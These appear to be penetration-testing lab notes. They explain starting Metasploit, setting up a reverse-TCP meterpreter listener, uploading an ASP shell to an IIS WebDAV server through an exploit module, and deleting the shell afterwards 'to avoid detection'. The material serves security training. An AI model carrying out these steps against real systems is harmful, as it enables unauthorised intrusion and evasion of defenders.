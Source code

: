 			- The command "service postgresql start" is used to start the PostgreSQL service if it is installed on the system. It ensures that the PostgreSQL service is up and running, allowing Metasploit to connect to and utilize a PostgreSQL database.
		-  "&&": This is the logical AND operator in shell scripting. It allows you to execute multiple commands sequentially, with the second command executing only if the first command succeeds (i.e., returns an exit status of 0). If the first command fails, the second command won't be executed.
		- "msfconsole": This command launches the Metasploit Framework console. Metasploit is a widely-used open-source penetration testing framework that provides various tools for exploiting vulnerabilities in computer systems. The "msfconsole" command starts the interactive command-line interface for the Metasploit Framework, where you can execute various commands and modules for penetration testing purposes.
		- By combining these commands using "&&", the shell will start the PostgreSQL service and, if successful, proceed to launch the Metasploit Framework console.

- Setting up handler/listener in metasploit by using metasploit module : 
	- use multi/handler 
	- set payload windows/meterpreter/reverse_tcp  (let op dat jouw payload naam overeenkomt met wat je hier invoert)
	- show options 
	- set LHOST  yourip
	- set LPORT  openport 
	- run 
- execute malicious payload by clicking on the file name in webdav browser 
- run sysinfo to see if it was successfull 
- run getuid to check your privileges 

delete shell.asp will delete the file, this is good to do once you have access, to avoid detection 

We have a second option using metasploit 

- search iis upload ![[Pasted image 20230703111527.png]]
- use exploit/windows/iis/iis_webdav_upload_asp
	- show options 
	- set  HttpUsername bob  
	- set  HttpPassword password_123321
	- set RHOST to targtet ip 
	- set Rport 
	- set PATH /webdav/metasploit.asp  (this is what will be uploaded)
	- exploit (this will start reverse tcp handler)



------------------------- LAB -------------------------

![[Pasted image 20230703112538.png]] 

![[Pasted image 20230703121659.png]] ![[Pasted image 20230703121957.png]]
![[Pasted image 20230703122802.png]]
![[Pasted image 20230703122811.png]]
-- 

## Exploiting SMB With PsExec 
